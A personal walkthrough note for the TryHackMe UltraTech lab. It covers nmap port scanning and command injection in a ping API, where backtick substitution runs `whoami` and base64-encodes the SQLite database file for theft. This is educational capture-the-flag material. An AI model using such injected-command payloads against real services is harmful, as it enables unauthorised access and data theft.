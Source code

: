 
2024-07-11 20:46

Source: #web #youtube 

Tags: [[nmap]]
#### Enumeration 
```
nmap -sCV -v $IP 
```
non-standard port in use?
```
nmap -p- -v $IP
```
1. we find 31331 
2. 8081 has a website hosted that isn't leading anywhere so we try 31331, there we have a proper webpage of ultratech 
3. going to robots.txt we find the site map
#### Exploitation 

we see there is an `api` running that helps in pinging 
```
curl 'http://<ip.address>:8081/ping?ip=`whoami`'
```
above command would otherwise be used to ping an IP address but here with command substitution we can perform command [[injection]] 

since we have an API running we can use `/health` and `/status`

in order to get the data of the [[database]] we try to return the value as a base64 encoding 
```
10.10.65.179:8081/ping?ip=`base64 -w 0 utech.db.sqlite`
```
`-w 0` to make it all one long line
save the file with `.b64` extension z






### References
[TryHackMe | UltraTech](https://tryhackme.com/r/room/ultratech1)

video soln- 
https://www.youtube.com/watch?v=b8hUHRus6cw